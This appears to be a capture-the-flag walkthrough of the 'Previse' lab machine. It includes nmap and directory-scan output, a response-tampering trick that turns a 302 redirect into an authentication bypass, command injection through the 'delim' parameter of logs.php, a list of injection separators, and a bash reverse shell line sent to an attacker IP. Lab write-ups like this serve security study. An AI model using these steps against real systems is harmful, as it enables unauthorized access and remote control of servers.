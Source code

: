 * Nmap scan to determine open ports and services used on them

```bash
Nmap 7.92 scan initiated Mon Oct 11 15:52:41 2021 as: nmap -sC -sV -Pn -p- -v -oN nmap.out 10.10.11.104
Nmap scan report for 10.10.11.104
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Previse Login
|_Requested resource was login.php
|_http-favicon: Unknown favicon MD5: B21DD667DF8D81CAE6DD1374DD548004
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 11 16:07:43 2021 -- 1 IP address (1 host up) scanned in 901.29 seconds
```

* Run Ferox to see the existing directories in the application

```bash
feroxbuster -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -u http://10.10.11.104/ -x php -o ferox1.out

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher                    ver: 2.3.1
───────────────────────────┬──────────────────────
     Target Url            │ http://10.10.11.104/
     Threads               │ 50
     Wordlist              │ /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
     Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     Timeout (secs)        │ 7
     User-Agent            │ feroxbuster/2.3.1
     Config File           │ /etc/feroxbuster/ferox-config.toml
     Output File           │ ferox1.out
     Extensions            │ [php]
     Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      309c http://10.10.11.104/js
302        0l        0w        0c http://10.10.11.104/logs.php
302      112l      263w     4914c http://10.10.11.104/files.php
200        0l        0w        0c http://10.10.11.104/config.php
301        9l       28w      310c http://10.10.11.104/css
302       71l      164w     2801c http://10.10.11.104/index.php
302        0l        0w        0c http://10.10.11.104/logout.php
200       53l      138w     2224c http://10.10.11.104/login.php
302        0l        0w        0c http://10.10.11.104/download.php
302       93l      238w     3994c http://10.10.11.104/accounts.php
200       31l       60w     1248c http://10.10.11.104/nav.php
200       20l       64w      980c http://10.10.11.104/header.php
200        5l       14w      217c http://10.10.11.104/footer.php
302       74l      176w     2966c http://10.10.11.104/status.php
[####################] - 59s   373686/373686  0s      found:14      errors:181950 
[####################] - 46s   124562/124562  2695/s  http://10.10.11.104/
[####################] - 44s   124562/124562  2807/s  http://10.10.11.104/js
[####################] - 44s   124562/124562  2993/s  http://10.10.11.104/css
```

* Check all the directories and you will see 2 interesting files - 
	a. http://10.10.11.104/accounts.php
	b. http://10.10.11.104/nav.php
	
* Goto accounts.php, capture request in burp, capture response. In response, you will see that you get unauthorized access to account creation page, but the response status is 302(redirection). Change it to 200 OK and change the location from login.php to accounts.php

* You get access to account creation page. Create an account and log into it.

* Search around the application and you will see a "sitebackup" file present. Click onto it to download and you have access to all the source code of application.

* SOURCE CODE REVIEW!

* You will see a parameter called delim being used in the logs.php. It uses the post method directly without input sanitization with the exec(). Try injecting commands using 
	* &
	* && 
	* | 
	* || 
	* ; 
	* ;;

* Here & worked. But the injection is blind, so as to confirm injection is present use tcpdump -i tun0 icmp into the terminal and on the burp suite add the ping command to delim as - 
	delim = comma & ping -c1 \<your-ip>. You will see a response on tcp dump confirming the injection.
	
* Upload a reverse shell in this param. Currently used -  bash -c "bash -i >& /dev/tcp/10.10.16.10/1000 0>&1"
	
* listen to this port using rlwrap or nc -nvlp \<port-no.>. You will get a shell.	